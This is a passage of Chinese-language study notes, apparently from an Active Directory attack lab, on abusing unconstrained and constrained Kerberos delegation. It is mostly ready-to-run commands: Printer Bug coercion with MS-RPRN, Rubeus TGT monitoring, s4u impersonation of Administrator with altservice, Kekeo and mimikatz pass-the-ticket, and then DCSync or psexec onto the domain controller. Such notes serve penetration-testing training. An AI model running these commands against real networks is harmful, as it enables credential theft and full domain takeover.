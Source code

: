 如果串 Printer Bug 之類可以強迫 User A 過來戳 Service B，那基本上就代表我們可以幹走 User A 的 Credential

- Enum 
	- PowerView `Get-DomainComputer -Unconstrained`
	- ADModule `Get-ADComputer -Filter {TrustedForDelegation -eq $true} -Properties TrustedForDelegation`
- 用 Local Admin 登上後，使用 Rubeus 監聽 TGT 
	- `Rubeus.exe monitor /targetuser:DCORP-DC$ /interval:5 /nowrap`
- 並使用 Printer Bug 強制其他電腦跟它進行驗證 (使用 FQDN)
		- `MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local`
- 在本機把收到的 Ticket Pass 出去
	- `Rubeus.exe ptt /ticket:xxx`
- 就可以拿其 Computer Account 做任何事了
	- 例如 DC 的就可以跑 DC Sync 或是用 PSEXEC 連上去搞事

### Constrained Delegation
PowerView 的話，用 `Get-DomainUser -TrustedToAuth` 或 `Get-DomainComputer -TrustedToAuth`
AD-Module 用 `Get-ADUser -Filter {msds-allowedtodelegateto -ne $false} -Properties msds-allowedtodelegateto` 或 `Get-ADComputer -Filter {msds-allowedtodelegateto -ne $false} -Properties msds-allowedtodelegateto`
觀察 `msds-allowedtodelegateto` 的 SPN 就是我們可以拿來偽造的
#### Rubeus
```
Rubeus.exe s4u /user:websvc /aes256:2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7 /impersonateuser:Administrator /msdsspn:CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL /ptt
```

因為 S4U2proxy 特性 （S4U2Proxy 向 KDC申請 TGS 後， TGS的 Server Name 是加密的，但 Service Name 是沒有加密的，因此可以任意變造 Service），因此可以使用 `/altservice` 變造 Service，儘管它本身沒有 Delegate 的權限

```
.\Rubeus.exe s4u /user:Dcorp-adminsrv$ /impersonateuser:Administrator /msdsspn:TIME/dcorp-dc.dollarcorp.moneycorp.LOCAL /aes256:e9513a0ac270264bb12fb3b3ff37d7244877d269a97c7b3ebc3f6f78c382eb51 /altservice:ldap /ptt
```

#### Keko
產 TGT
```
tgt::ask /user:websvc /domain:dollarcorp.moneycorp.local /rc4:cc098f204c5887eaa8253e7c2749156f
```

用 tgs 的 s4u
```
tgs::s4u /tgt:前面TGT檔案路徑 /user:Administrator@dollarcorp.moneycorp.local /service:CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL
```

使用 mimikatz 來進行 ptt
```
mimikatz.exe "privilege::debug" "kerberos::ptt 前面TICKET路徑" "exit"
```


之後就可以 `dir \\dcorp-mssql.dollarcorp.moneycorp.local\C$` 或 psexec 它
